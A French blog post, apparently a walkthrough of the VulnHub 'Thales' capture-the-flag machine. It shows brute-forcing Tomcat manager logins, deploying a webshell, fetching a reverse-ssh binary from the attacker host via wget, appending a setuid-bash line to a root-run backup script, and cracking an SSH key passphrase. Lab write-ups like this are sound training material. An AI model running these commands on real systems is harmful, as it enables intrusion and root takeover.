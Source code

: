 ```yaml
---
title: "Solution du CTF Thales de VulnHub"
tags: [CTF, VulnHub]
---
```


[Ce CTF](https://www.vulnhub.com/entry/thales-1,749/) proposé sur VulnHub a été créé par [machineboy414](https://twitter.com/machineboy141) qui est déjà l'auteur de la série de CTFs KB-VULN pour lesquels j'ai déjà écrit quelques writeups.

On lance notre scanner de ports favoris et... oh ! un Tomcat !

```
Starting Nmap 7.93 ( https://nmap.org )
Nmap scan report for 192.168.56.39
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8c19ab9172a571d86d751d8f65dfe132 (RSA)
|   256 906ea0eed5296cb97b05dbc6825c19bf (ECDSA)
|_  256 544d7be8f97f21343eed0fd9fe93bf00 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.52
|_http-title: Apache Tomcat/9.0.52
|_http-favicon: Apache Tomcat
MAC Address: 08:00:27:72:5B:09 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

J'ai beau avoir croisé quelques Tomcat dans les CTFs il fallait que je retrouve la liste d'identifiants habituels pour cette application.

Les différents liens sur le site mènent en effet presque tous à une demande d'authentification. Notemment si on tente d'accèder à `/manager`.

J'ai recherché un outil de brute force pour Tomcat mais j'aurais très bien avoir recours sau classique Hydra. J'ai finalement jeté mon dévolu sur [ce petit script Python](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) qui n'a besoin que de deux dépendances (`requests` et `termcolor`).

Je lui ait fournit en entrée deux wordlists provenant de fuzzdb, l'une pour les noms d'utilisateurs et l'autre pour les mots de passe.

```bash
$ python mgr_brute.py -U http://192.168.56.39:8080/ -u tomcat_mgr_default_users.txt -p tomcat_mgr_default_pass.txt -P /manager

[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'role1'
```

Une fois connecté je remarque qu'il y a une entrée */shell/* dans les applis déployées. La page n'affichant que du vide j'ai tenté de débusquer un éventuel paramètre valide pour le script:

```bash
$ ffuf -u "http://192.168.56.39:8080/shell/?FUZZ=id" -w common_query_parameter_names.txt -fs 6
```

Cela n'a malheureusement mené nul part. J'aurais aimé pouvoir télécharger le fichier war correspondant au déploiement depuis le Tomcat mais c'est visiblement impossible.

J'ai donc du employer la classique technique de déploiement d'une archive war que j'ai trouvé pour l'occasion [sur ce projet github](https://github.com/p0dalirius/Tomcat-webshell-application).

Une fois déployé on utilise la commande fournie en exemple:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

Je rappatrie ensuite un reverse-ssh sur la machine:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=wget -O /opt/tomcat/reverse-ssh http://192.168.56.1:8000/reverse-sshx64"
```

Je lance d'abord reverse-ssh en écoute sur ma machine:

```bash
./reverse-sshx64 -l -p 9999 -v
```

puis je lance le tunnel depuis la VM:

```bash
curl -X POST 'http://192.168.56.39:8080/webshell/api' --data "action=exec&cmd=/opt/tomcat/reverse-ssh -p 9999 192.168.56.1"
```

Le tunnel est bien établi :

```
2022/11/03 17:04:47 Starting ssh server on :9999
2022/11/03 17:04:47 Success: listening on [::]:9999
2022/11/03 17:05:05 Successful authentication with password from reverse@192.168.56.39:54578
2022/11/03 17:05:05 Attempt to bind at 127.0.0.1:8888 granted
2022/11/03 17:05:05 New connection from 192.168.56.39:54578: tomcat on miletus reachable via 127.0.0.1:8888
```

Je n'ai plus qu'à me connecter au port forwardé localement:

```bash
$ ssh -p 8888 127.0.0.1
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
RSA key fingerprint is SHA256:ouF/tUjdBRFlHLkk1CgdY/xcer/6epVHyR9k0gDiNeI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (RSA) to the list of known hosts.
sirius@127.0.0.1's password: 
tomcat@miletus:/$ id
uid=999(tomcat) gid=999(tomcat) groups=999(tomcat)
```

Je fouille direct dans le dossier `/home` et je vois des éléments intéressants:

```bash
tomcat@miletus:/$ ls /home/thales/ -al
total 52
drwxr-xr-x 6 thales thales 4096 Oct 14  2021 .
drwxr-xr-x 3 root   root   4096 Aug 15  2021 ..
-rw------- 1 thales thales  457 Oct 14  2021 .bash_history
-rw-r--r-- 1 thales thales  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 thales thales 3771 Apr  4  2018 .bashrc
drwx------ 2 thales thales 4096 Aug 15  2021 .cache
drwx------ 3 thales thales 4096 Aug 15  2021 .gnupg
drwxrwxr-x 3 thales thales 4096 Aug 15  2021 .local
-rw-r--r-- 1 thales thales  807 Apr  4  2018 .profile
-rw-r--r-- 1 root   root     66 Aug 15  2021 .selected_editor
drwxrwxrwx 2 thales thales 4096 Aug 16  2021 .ssh
-rw-r--r-- 1 thales thales    0 Oct 14  2021 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    107 Oct 14  2021 notes.txt
-rw------- 1 thales thales   33 Aug 15  2021 user.txt
```

Le fichier *notes.txt* contient le message suivant :

> I prepared a backup script for you.
> The script is in this directory "/usr/local/bin/backup.sh".
> Good Luck.

On peut lire la clé privée SSH de l'utilisateur mais pas écrire à l'intérieur (SSH aurait sans doute gueulé sinon).

Cette clé privée est toutefois protégée par une passphrase donc laissons la de côté.

On voit que le script cité appartient à root mais est world-writable :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /usr/local/bin/backup.sh
-rwxrwxrwx 1 root root 612 Oct 14  2021 /usr/local/bin/backup.sh
```

Il créé des archives compressées du dossier /opt/tomcat :

```bash
#!/bin/bash
####################################
#
# Backup to NFS mount script.
#
####################################

# What to backup. 
backup_files="/opt/tomcat/"

# Where to backup to.
dest="/var/backups"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```

Et visiblement le script est exécuté par root :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /var/backups
total 36508
drwxr-xr-x  2 root root     4096 Nov  3 14:56 .
drwxr-xr-x 13 root root     4096 Aug  6  2020 ..
-rw-r--r--  1 root root    33750 Oct 14  2021 apt.extended_states.0
-rw-r--r--  1 root root     3614 Aug 15  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root 11573824 Aug 16  2021 miletus-Monday.tgz
-rw-r--r--  1 root root 11572776 Aug 15  2021 miletus-Sunday.tgz
-rw-r--r--  1 root root 14182418 Nov  3 18:10 miletus-Thursday.tgz
```

La date du dernier fichier semble changer toutes les 5 minutes.

Je rajoute deux petites commandes en fin de script :

```bash
echo "cp /bin/bash /tmp/; chmod 4755 /tmp/bash" >> /usr/local/bin/backup.sh
```

On obtient notre shell attendu rapidement :

```bash
tomcat@miletus:/home/thales/.ssh$ ls -al /tmp/bash
-rwsr-xr-x 1 root root 1113504 Nov  3 18:20 /tmp/bash
tomcat@miletus:/home/thales/.ssh$ /tmp/bash -p
bash-4.4# id
uid=999(tomcat) gid=999(tomcat) euid=0(root) groups=999(tomcat)
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt
3a1c85bebf8833b0ecae900fb8598b17
bash-4.4# cat /home/thales/user.txt
a837c0b5d2a8a07225fd9905f5a0e9c4
```

## Alternative happy end

On peut finalement casser la passphrase de la clé SSH :

```
./john --wordlist=rockyou.txt  ssh_key.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
vodka06          (/tmp/thales.key)     
1g 0:00:00:00 DONE (2022-11-03 18:24) 1.020g/s 2918Kp/s 2918Kc/s 2918KC/s vodka121..vodka&l
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La connexion avec la clé échoue (sans doute à cause des mauvaises permissions) mais depuis le compte *tomcat* on peut *su* vers *thales* avec le mot de passe.

On ne peut pas utiliser sudo depuis cet utilisateur. La ligne qui nous aurait aidé a été commentée :

```
# Allow members of group sudo to execute any command
#sudo   ALL=(ALL:ALL) ALL
```

L'utilisateur fait toutefois partie du groupe lxd donc il doit être possible de faire une escalade de privlège par là.

En conclusion un CTF simple mais plutôt réaliste.

*Publié le 3 novembre 2022*
